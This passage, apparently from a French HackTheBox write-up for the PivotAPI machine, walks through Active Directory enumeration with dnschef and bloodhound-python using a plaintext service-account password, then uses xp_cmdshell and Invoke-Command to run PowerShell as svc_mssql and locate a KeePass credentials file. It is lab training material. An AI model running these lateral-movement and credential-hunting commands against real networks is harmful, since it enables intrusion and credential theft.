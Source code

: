 On lance un BloodHound.py pour trouver un utilisateur pouvant PSRemote. Cependant, il est fréquent que ce collecteur ait un problème de résolution DNS, on peut donc simuler les requetes DNS en configurant un DNS proxy avec l'outil [dnschef](https://github.com/iphelix/dnschef) :

```bash
❯ sudo python3 dnschef.py --fakeip 10.10.10.240 --fakedomains PivotAPI.LicorDeBellota.htb -q # Create fake A record
❯ bloodhound-python -d LicorDeBellota.htb -c all,loggedon --zip -u 'svc_mssql' -p '#mssql_s3rV1c3!2020' -dc PivotAPI.LicorDeBellota.htb -ns 127.0.0.1
INFO: Found AD domain: licordebellota.htb
INFO: Connecting to LDAP server: PivotAPI.LicorDeBellota.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: PivotAPI.LicorDeBellota.htb
INFO: Found 27 users
INFO: Connecting to GC LDAP server: pivotapi.licordebellota.htb
INFO: Found 57 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: PivotAPI.LicorDeBellota.htb
INFO: Done in 00M 10S
INFO: Compressing output into 20221108005951_bloodhound.zip
```

Lors de l'import du dump sur BloodHound, il est possible d'avoir une erreur "File created from incompatible collector", cela est du à un conflict de version, il est possible d'utiliser [bloodhound-convert](https://github.com/szymex73/bloodhound-convert) pour remédier à ce problème.

L'utilisateur jari et les membres du groupe WinRM ont la capacité de créer une connexion PSRemote vers la machine PivotAPI.LicorDeBellota.htb (Custom Query : `MATCH p=()-[r:CanPSRemote]->() RETURN p LIMIT 25`) :

![bh1](https://i.imgur.com/e7kNWxf.png)

De plus, l'utilisateur svc_mssql est un membre du groupe WinRM :

![bh2](https://i.imgur.com/1P0AHqg.png)

On peut créer un [objet PSCredential](https://microsofttouch.fr/default/b/sylver/posts/powershell-creer-un-objet-pscredential) et faire un `Invoke-Command` en powershell avec l'objet à travers xp_cmdshell pour exécuter des commandes en tant que svc_mssql. En faisant un `gci -recurse` sur `C:\Users\` (car il y a beaucoup de profil d’utilisateurs locaux) on voit qu’il y a une database KeePass :

```powershell
SQL> xp_cmdshell "powershell -c "$SecPassword = ConvertTo-SecureString \"#mssql_s3rV1c3!2020\" -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential(\"LicorDeBellota\svc_mssql\", $SecPassword); Invoke-Command -Credential $cred -ComputerName PivotAPI { powershell -c \"gci -recurse C:/Users/ \" }"

Directorio: C:\Users\svc_mssql\Desktop

Mode                LastWriteTime         Length Name


----                -------------         ------ ----


-a----       08/08/2020     22:12           2286 credentials.kdbx
```


[127.0.0.1]: PS C:\> ls -R C:\Developers